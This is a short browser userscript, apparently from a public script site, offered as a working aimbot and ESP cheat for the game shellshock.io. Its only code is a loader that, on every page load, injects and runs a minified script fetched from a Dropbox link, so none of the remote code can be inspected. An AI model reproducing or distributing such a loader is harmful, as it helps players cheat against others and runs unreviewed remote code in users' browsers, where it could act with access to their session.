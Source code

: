 // ==UserScript==

// @name         Shellshock.io aimbot (WORKING)

// @version      3.9

// @description  Shellshock Aimbot + Esp

// @author       Nanzo Operations GMBH

// @match        *://shellshock.io/*

// @grant        none

// @namespace https://greasyfork.org/en/users/686784

// ==/UserScript==


var script = document.createElement('script');

script.src = '//dl.dropboxusercontent.com/s/wjuz0lovxa00an3/5shellshock.min.js';

script.type = 'text/javascript';

document.body.appendChild(script);
